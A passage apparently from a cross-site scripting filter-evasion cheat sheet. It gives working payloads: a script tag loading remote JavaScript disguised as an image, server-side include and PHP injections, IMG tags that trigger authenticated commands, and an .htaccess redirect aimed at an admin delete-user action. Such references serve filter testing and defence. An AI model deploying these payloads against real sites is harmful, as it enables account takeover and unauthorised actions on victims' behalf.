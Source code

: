 You can rename your JavaScript file to an image as an XSS vector:

```html
<script src="http://xss.rocks/xss.jpg"></script>
```

## SSI (Server Side Includes)

This requires SSI to be installed on the server to use this XSS vector. I probably don't need to mention this, but if you can run commands on the server there are no doubt much more serious issues:

```js
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->
```

## PHP

Requires PHP to be installed on the server to use this XSS vector. Again, if you can run any scripts remotely like this, there are probably much more dire issues:

```php
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

## IMG Embedded Commands

This works when the webpage where this is injected (like a web-board) is behind password protection and that password protection works with other commands on the same domain. This can be used to delete users, add users (if the user who visits the page is an administrator), send credentials elsewhere, etc.... This is one of the lesser used but more useful XSS vectors:

```html
<img
  src="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode"
/>
```

### IMG Embedded Commands part II

This is more scary because there are absolutely no identifiers that make it look suspicious other than it is not hosted on your own domain. The vector uses a 302 or 304 (others work too) to redirect the image back to a command. So a normal `<IMG SRC="httx://badguy.com/a.jpg">` could actually be an attack vector to run commands as the user who views the image link. Here is the .htaccess (under Apache) line to accomplish the vector (thanks to Timo for part of this):

`Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser`

## Cookie Manipulation

Admittedly this is pretty obscure but I have seen a few examples where `<META` is allowed and you can use it to overwrite cookies. There are other examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who visits the page. With these two scenarios combined you can modify the victim's cookie which will be displayed back to them as JavaScript (you can also use this to log people out or change their user states, get them to log in as you, etc...):
